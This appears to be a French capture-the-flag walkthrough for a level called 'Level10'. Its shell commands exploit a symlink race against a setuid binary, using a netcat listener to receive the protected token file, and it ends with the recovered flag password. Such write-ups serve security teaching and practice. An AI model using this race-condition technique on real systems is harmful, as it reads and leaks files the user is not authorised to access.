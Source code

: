 # Level10

---


copier cette ligne de command dans le terminal:
```bash
cat > /tmp/script << EOF
#!/bin/bash

ln -sf /tmp/temp /tmp/link
ln -sf $HOME/token /tmp/link
EOF
```

puis executer cette ligne:

``` bash
chmod +x /tmp/script && touch /tmp/link /tmp/temp
```

lancer trois terminaux avec sur chaque:

```bash 
while true; do nc -l 6969; done
```

```bash
while true; do /tmp/script; done
```

```bash
while true; do ./level10 /tmp/link 0.0.0.0; done
```

```
CTRL+C le ./level10
```



dans le terminal du nc on obtient:

> woupa2yuojeeaaed06riuj63c (pwd de flag10)